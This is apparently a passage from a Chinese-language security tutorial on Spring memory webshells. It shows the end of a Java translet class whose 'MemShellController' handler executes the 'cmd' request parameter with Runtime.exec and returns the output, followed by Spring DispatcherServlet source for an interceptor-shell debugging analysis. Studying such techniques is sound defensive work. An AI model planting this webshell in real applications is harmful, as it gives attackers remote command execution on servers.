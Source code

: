 ```java

        }catch (Exception e){
            e.printStackTrace();
        }
    }
    @RequestMapping(value = "MemShellController")
    public void Shell(HttpServletRequest servletRequest, HttpServletResponse servletResponse, @RequestParam String cmd) throws Exception {
        if (cmd != null) {//回显内容
            Process process = Runtime.getRuntime().exec(cmd);
            java.io.BufferedReader bufferedReader = new java.io.BufferedReader(
                    new java.io.InputStreamReader(process.getInputStream()));
            StringBuilder stringBuilder = new StringBuilder();
            String line;
            while ((line = bufferedReader.readLine()) != null) {
                stringBuilder.append(line + '\n');
            }
            servletResponse.getOutputStream().write(stringBuilder.toString().getBytes());
            servletResponse.getOutputStream().flush();
            servletResponse.getOutputStream().close();
        }
    }
    @Override
    public void transform(DOM document, SerializationHandler[] handlers) throws TransletException {

    }

    @Override
    public void transform(DOM document, DTMAxisIterator iterator, SerializationHandler handler) throws TransletException {

    }
}

```



此处不再记载spring3.1以下的Controller马，以上适用于spring>=3.1

另外，关于doDispatch的详解：https://godownio.github.io/2025/03/25/spring-dispatcherservlet-xiang-jie/

## interceptor内存马调试分析

### 调试

DispatcherServlet#doDispatch()内主要的try块如下

```java
			try {
				processedRequest = checkMultipart(request);
				multipartRequestParsed = (processedRequest != request);

				// Determine handler for the current request.
				mappedHandler = getHandler(processedRequest);
				if (mappedHandler == null) {
					noHandlerFound(processedRequest, response);
					return;
				}

				// Determine handler adapter for the current request.
				HandlerAdapter ha = getHandlerAdapter(mappedHandler.getHandler());

				// Process last-modified header, if supported by the handler.
				String method = request.getMethod();
```